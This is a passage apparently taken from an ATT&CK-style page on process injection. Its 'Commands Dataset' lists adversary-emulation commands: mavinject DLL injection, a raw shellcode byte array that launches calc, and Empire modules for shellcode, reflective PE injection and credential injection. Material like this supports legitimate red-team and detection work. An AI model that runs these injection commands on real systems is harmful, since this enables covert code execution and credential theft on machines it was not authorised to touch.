 ```

## Commands Dataset

```
[{'command': '$mypid = (Start-Process notepad -PassThru).id\n'
             'mavinject $mypid /INJECTRUNNING #{dll_payload}\n',
  'name': None,
  'source': 'atomics/T1055/T1055.yaml'},
 {'command': '$mypid = #{process_id}\n'
             'mavinject $mypid /INJECTRUNNING '
             'PathToAtomicsFolder\\T1055\\src\\x64\\T1055.dll\n',
  'name': None,
  'source': 'atomics/T1055/T1055.yaml'},
 {'command': '0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6A, 0x60, 0x5A, '
             '0x68, 0x63, 0x61, 0x6C, 0x63, 0x54, 0x59, 0x48, 0x83, 0xEC, '
             '0x28, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, '
             '0x8B, 0x76, 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, '
             '0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17, 0x28, 0x8B, '
             '0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24, '
             '0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, '
             '0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F, '
             '0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7, '
             '0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x30, 0x5D, 0x5F, 0x5E, '
             '0x5B, 0x5A, 0x59, 0x58, 0xC3',
  'name': 'Start a new calculator process',
  'source': 'data/abilities/defense-evasion/a42dfc86-12f0-4f06-b0cf-24830c7f61f4.yml'},
 {'command': 'powershell/code_execution/invoke_reflectivepeinjection',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/code_execution/invoke_reflectivepeinjection',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/code_execution/invoke_shellcode',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/code_execution/invoke_shellcode',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/code_execution/invoke_shellcodemsil',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/code_execution/invoke_shellcodemsil',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/credentials/credential_injection',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/credentials/credential_injection',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/management/psinject',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/management/psinject',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/management/reflective_inject',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/management/reflective_inject',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/management/shinject',